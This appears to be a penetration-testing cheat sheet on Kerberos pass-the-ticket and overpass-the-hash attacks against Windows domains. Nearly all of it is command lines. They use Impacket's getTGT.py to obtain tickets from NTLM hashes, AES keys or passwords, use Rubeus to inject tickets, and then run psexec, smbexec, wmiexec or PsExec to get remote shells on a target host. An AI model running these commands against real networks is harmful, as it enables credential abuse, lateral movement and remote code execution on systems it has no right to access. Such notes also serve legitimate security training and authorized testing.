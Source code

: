 # Pass The Ticket

## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
python smbexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
python wmiexec.py rastalabs.local/jack@10.10.10.1 -k -no-pass
```

With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

* Impacket’s `psexec.py` offers `psexec` like functionality. This will give you an interactive shell on the Windows host. `psexec.py` also allows using Service Tickets, saved as a `ccache` file for Authentication. It can be obtained via Impacket’s `GetST.py`
* It is much easier to use variables&#x20;

```
target=10.10.10.1
domain=test.local
username=john
export KRB5CCNAME=/full/path/to/john.ccache
python3 psexec.py $domain/$username@$target -k -no-pass
```
